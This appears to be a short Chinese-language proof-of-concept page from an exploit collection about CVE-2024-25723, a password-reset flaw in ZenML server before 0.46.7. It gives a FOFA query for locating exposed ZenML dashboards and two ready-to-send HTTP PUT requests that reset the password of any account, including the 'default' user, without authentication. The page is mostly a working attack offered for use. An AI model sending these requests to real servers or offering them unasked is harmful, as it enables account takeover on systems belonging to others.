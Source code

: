 ## ZenML服务器远程权限提升漏洞(CVE-2024-25723)

ZenML服务器远程权限提升漏洞（CVE-2024-25723）存在于Python的0.46.7之前的ZenML机器学习包中的ZenML服务,漏洞源于/*/{user_name_or_id}/activate REST API 端点允许基于有效用户名和请求正文中的新密码进行访问，可导致未授权用户远程权限提升，可直接重置任意ZenML账户密码。



## fofa
```
title=="ZenML - Dashboard"
```

## poc
```
PUT /api/v1/users/*/activate HTTP/1.1
Host: 
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 31

{"password": "Ldwk@20240426"}


PUT /api/v1/users/default/activate HTTP/1.1
Host: 
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 31

{"password": "Ldwk@20240426"}
```

![image](https://github.com/wy876/POC/assets/139549762/698ab566-b17e-48c0-954d-1dd21f795405)

